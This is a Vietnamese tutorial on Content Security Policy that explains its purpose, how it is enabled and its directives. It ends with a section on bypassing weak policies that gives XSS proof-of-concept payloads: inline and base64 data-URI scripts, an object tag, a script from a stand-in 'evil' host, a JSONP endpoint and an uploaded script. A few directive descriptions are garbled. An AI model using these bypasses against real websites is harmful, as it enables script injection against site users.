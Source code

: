 
# Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.
- CSP (hay Content-Security-Policy) thực chất là một header nằm trên request khi được gửi đến một server nào đó.Để enable CSP, chúng ta chỉ cần cấu hình cho server của chúng ta trả về Content-Security-Policy HTTP headers.Để xem danh sách các thẻ policy đầy đủ bạn có thể xem tại Content-Security-Policy header Một cách khác chúng ta có thể sử dụng thông qua thẻ <meta>. Ví dụ: <meta http-equiv=”Content-Security-Policy” content=”default-src ‘self’; img-src https://*; child-src ‘none’;”>
## 3.Một số chính sách của CSP.

### Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau.

- ```default-src```  Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
- ```script-src```  Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
- ```script-src-elem```  Nguồn hợp lệ cho ```<script>```thẻ. Nếu không có, script-srcsẽ được sử dụng.
- ```frame-src``` Nguồn hợp lệ cho ```<frame>```và ```<iframe>```.
- ```img-src```  Nguồn hợp lệ cho ```<object>```, ```<embed>```và ```<applet>```.
- ```style-src```  Nguồn hợp lệ cho bảng định kiểu.
- ```font-src```  Nguồn phông chữ hợp lệ

### Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật

- ```sandbox``` : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với ```<iframe>```).
- ```require-trusted-types-for``` : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
- ```trusted-types``` : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
- ```upgrade-insecure-requests``` : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
- ```frame-ancestors``` : Hạn chế các nguồn được phép cho các phần tử ```<frame>```, ```<iframe>```, ```<object>```, ```<embed>``` và ```<applet>```
- ```form-action``` : Kiểm soát các URL được phép gửi biểu mẫu.
- ```base-uri``` : Hạn chế các nguồn hợp lệ cho ```<base>``` thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```

### Tài Liệu tham khảo.
- https://websecblog.com/vulns/google-csp-evaluator/
- https://medium.com/@vikramroot/part-2-everything-you-need-to-know-about-browser-security-policies-csp-cookie-attributes-etc-3ea98f737b3a
  
